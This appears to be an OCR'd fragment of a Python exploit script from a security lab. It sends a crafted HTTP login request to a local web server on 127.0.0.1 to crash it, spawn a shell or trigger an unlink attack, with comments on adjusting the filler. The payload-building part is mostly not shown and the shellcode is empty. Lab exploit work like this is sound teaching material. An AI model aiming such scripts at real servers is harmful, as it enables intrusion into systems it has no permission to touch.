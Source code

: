```python
    req += ("\r\n").encode('latin-1')
    req += ("\r\n").encode('latin-1')
   
    # Below is the username/password that you can Register into the web server
    # by using web browser. These information will be stored into the sqlite db behind.
    # You need to change these information according to your own registration.
 
    # Note that successful POST will be responded by the server with a hint page.
    # By using the successful response, you can judge whether the server has been 
    # crashed (by exploit), so that you can adjust the fillup accordingly.
    req += ("login_username=U202012043&login_password=1234567&submit_login=Login").encode('latin-1')

    print(req)
    return req

    #If you cannot use p32 (in pwnlib), you can use the following line
    #req += (addr1).to_bytes(4, byteorder='little')


def send_req(host, port, req):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    print("Connecting to %s:%d..." % (host, port))
    sock.connect((host, port))

    print("Connected, sending request...")
    sock.send(req)

    print("Request sent, waiting for reply...")
    rbuf = sock.recv(1024)
    resp = ("").encode("latin-1")
    while len(rbuf):
      resp=resp+rbuf
      rbuf = sock.recv(1024)

    print("Received reply.")
    sock.close()
    return resp


if len(sys.argv) != 2:
    print("Usage: " + sys.argv[0] + " type")
    print("type: 1 for shell, 2 for unlink")
    exit()

try:
    shellcode = ""
    req = build_exploit(shellcode, int(sys.argv[1]))
    print("HTTP request:")
    print(req)

    resp = send_req("127.0.0.1", 80, req)
    print("HTTP response:")
    print(resp)
except:
    print("Exception:")
    print(traceback.format_exc())
```
